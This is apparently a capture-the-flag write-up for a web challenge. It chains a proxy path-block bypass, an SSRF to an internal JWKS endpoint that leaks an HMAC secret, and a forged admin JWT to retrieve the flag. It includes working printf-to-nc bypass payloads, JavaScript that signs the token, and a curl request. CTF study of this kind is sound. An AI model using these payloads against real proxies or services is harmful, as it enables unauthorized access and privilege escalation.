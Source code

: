 ## Overview

### Server1 (port 5000)

- Not exposed
- Serves JWT secret on `/.well-known/jwks.json`

### Server2 (port 3000)

- Not exposed
- The flag can be obtained by requesting `/admin/flag`, with the limitation of having a valid jwt token.
- SSRF on `/debug/fetch`

### Proxy (port 8082)

- Exposed
- Forwards requests to Server2 with the exclusion of paths starting with `/debug`

### Observation

In Server2, by requesting `/admin/flag` the server will only check if the JWT is generated with a valid secret and if role is admin.

And `/debug/fetch` will trust requests that has x-forwarded-for header equals to 127.0.0.1.

We can use SSRF to access Server1 and obtain JWT secret, then generate a valid JWT token and use it to access `/admin/flag`. Easy Right?

#### The missing piece

We can't access `/debug/fetch` because the proxy blocks it; We have to bypass that.

```js
if (checkPath.toLowerCase().startsWith("/debug")) {
  client.write(
    "HTTP/1.1 403 Forbidden\r\nConnection: close\r\nContent-Type: text/plain\r\nContent-Length: 9\r\n\r\nforbidden"
  );
  client.end();
  upstream.end();
  return;
}
```

#### Bypassing proxy path blocking

One thing that you may noticed is headers are parsed manually using `parseHeaders`:

```js
  client.on("data", (chunk) => {
    clientBuf = Buffer.concat([clientBuf, chunk]);

    const meta = parseHeaders(clientBuf);
    if (!meta) return;

    const { idx, method, path, headers } = meta;
```

Another thing that feels wrong is ignoring the error of URL parsing:

```js
try {
  if (/^https?:\/\//i.test(checkPath)) {
    const u = new URL(checkPath);
    checkPath = u.pathname || "";
  }
} catch (_) {}
```

### Payloads:

note:replace `instanceip` with yours

```bash
printf '\r\nGET /debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082
```

- parseHeaders will split with \r\n and parse the first part as the request line which will result in empty string, hence `/^https?:\/\//i.test(checkPath)` is false

```bash
 printf 'GET https://localhost:65536/debug/fetch?url=http://localhost:5000/.well-known/jwks.json HTTP/1.1\r\nHost: example\r\nX-Forwarded-For: 127.0.0.1\r\n\r\n' | nc instanceip 8082

```

- `new URL(checkPath)` will throw an error since 65536 is bigger than the maximum allowed port 65535

### Flag

the previous payload will let us obtain the JWT secret (the field 'n' from the JSON response).

```json
{
  "keys": [
    {
      "kty": "RSA",
      "n": "random-string-for-hmac-secret",
      ...
    }
  ]
}
```

generate a valid jwt token:

```js
const jwt = require("jsonwebtoken");

const secret = "random-string-for-hmac-secret";
const payload = { role: "admin" };
const token = jwt.sign(payload, secret, { algorithm: "HS256" });

console.log(token);
```

get the flag

```bash

curl -v \
  -H "Authorization: Bearer eyJxxxxxxxx" \
  http://instanceip:8082/admin/flag
```
